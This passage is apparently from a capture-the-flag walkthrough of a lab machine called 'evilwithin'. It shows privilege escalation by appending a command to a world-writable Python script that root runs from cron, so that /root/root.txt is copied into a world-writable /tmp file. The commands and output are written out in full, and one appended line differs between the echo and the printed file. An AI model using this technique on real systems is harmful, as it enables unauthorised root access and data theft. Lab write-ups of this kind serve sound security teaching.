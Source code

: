 But apparently we are not allowed to run any commands as sudo. 

The next thing that we can check are the cron jobs.

```
kidman@evilwithin:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

*/2 * * * * root python3 /var/.the_eye_of_ruvik.py
```

And here we can see a python script is running which is stored at `/var/.the_eye_of_ruvik.py`. We can check if we can edit this file and if so we can modify it and use for our benefit.

```
kidman@evilwithin:~$ ls -la /var/.the_eye_of_ruvik.py 
-rwxr-xrw- 1 root root 300 Aug 14 22:43 /var/.the_eye_of_ruvik.py
```

It appears that we can edit this file. So, we can add a command in it to write the content of `/root/root.txt` to a file in `/tmp` directory. But before that we need to create an empty file in `temp` and change its permissions so that when the script get executed it can write to the file.

```
kidman@evilwithin:~$ touch /tmp/flag
kidman@evilwithin:~$ chmod 777 /tmp/flag 
kidman@evilwithin:~$ ls -la /tmp/flag 
-rwxrwxrwx 1 kidman kidman 0 Oct 12 04:48 /tmp/flag
```

Now, we can modify the python script just by adding a simple line at the end of it:

```
kidman@evilwithin:~$ echo 'subprocess.call("cat /root/root.txt > /tmp/flag", shell=True)' >> /var/.the_eye_of_ruvik.py 
kidman@evilwithin:~$ cat /var/.the_eye_of_ruvik.py 
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)

subprocess.call("cat /root/root.txt > /tmp/flag")
```
